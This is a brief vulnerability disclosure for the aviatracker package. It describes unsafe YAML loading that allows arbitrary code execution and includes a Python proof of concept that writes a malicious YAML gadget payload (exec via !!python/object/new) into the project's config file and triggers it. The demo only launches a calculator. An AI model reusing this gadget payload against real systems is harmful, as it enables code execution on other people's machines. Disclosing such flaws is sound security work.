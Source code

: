 # Description

`aviatracker.io` is a service, providing real-time access to air traffic data, package is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import os

os.system('git clone https://github.com/tunalagoona/aviatracker.git')
os.chdir('aviatracker/')
if not os.path.exists('config/'):
        os.mkdir('config/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('config/config.yaml','w+').write(payload)
os.system('python3 flighttracker/config.py')
```
* `python3 exploit.py`


# Impact

Arbitary Code Execution
